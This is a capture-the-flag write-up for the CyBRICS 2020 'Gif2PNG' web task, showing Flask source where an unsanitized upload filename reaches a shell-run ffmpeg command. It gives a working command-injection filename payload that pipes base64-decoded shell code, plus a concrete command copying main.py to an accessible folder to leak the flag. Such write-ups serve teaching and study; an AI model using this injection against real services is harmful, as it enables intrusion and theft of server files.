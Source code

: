 # Gif2PNG (web, 52p, 118 solved)

In the task we get access to a page where we can upload GIF images and it turns them into PNGs.
We have the [source code](main.py) so we can analyse how this conversion happens (relevant part):

```python
    if not bool(re.match("^[a-zA-Z0-9_\-. '\"\=\$\(\)\|]*$", file.filename)) or ".." in file.filename:
        logging.debug(f'Invalid symbols in filename: {file.content_type}')
        flash('Invalid filename', 'danger')
        return redirect(request.url)

    if file and allowed_file(file.filename):
        filename = secure_filename(file.filename)
        file.save(os.path.join(app.config['UPLOAD_FOLDER'], file.filename))

        mime_type = filetype.guess_mime(f'uploads/{file.filename}')
        if mime_type != "image/gif":
            logging.debug(f'Invalid Mime type: {mime_type}')
            flash('Mime type is not "image/gif"', 'danger')
            return redirect(request.url)

        uid = str(uuid.uuid4())
        os.mkdir(f"uploads/{uid}")

        logging.debug(f"Created: {uid}. Command: ffmpeg -i 'uploads/{file.filename}' \"uploads/{uid}/%03d.png\"")

        command = subprocess.Popen(f"ffmpeg -i 'uploads/{file.filename}' \"uploads/{uid}/%03d.png\"", shell=True)
        command.wait(timeout=15)
        logging.debug(command.stdout)

        flash('Successfully saved', 'success')
        return redirect(url_for('result', uid=uid))

return render_template("form.html")
```

So we have certain whitelist for filename characters, and then there is `ffmpeg` conversion.
The vulnerability is here:

```python
filename = secure_filename(file.filename)
file.save(os.path.join(app.config['UPLOAD_FOLDER'], file.filename))
```

Notice that this `secured` filename is `never used` at all!
The app is actually using the original name we provided!
And in the whitelist we can see `'` and `|`.

Since the command running in shell (with `shell=True`) is `ffmpeg -i 'uploads/{file.filename}'` then we can provide a name with `'` to escape and then `|` to chain commands with a classic `command injection` vector.

Out payload filename is:

```
test.gif' | (echo '"+payload+"' | base64 -d | sh) | '.gif
```

We can submit any base64 encoded shell payload to execute this way.

The simplest way to exfiltrate the `main.py` with the flag inside is to simply copy it to some location we can access.
Fortunately in this service we can access converted PNG files if we know the random UUID directory name and filename.

We create an entry by uploading some file, and then run: `payload = base64.b64encode('cp main.py uploads/4a8f46fe-ba07-4ccd-98dd-53a919a87899')`

And from `http://gif2png-cybrics2020.ctf.su/uploads/4a8f46fe-ba07-4ccd-98dd-53a919a87899/main.py` we can recover the flag: `cybrics{imagesaresocoolicandrawonthem}`
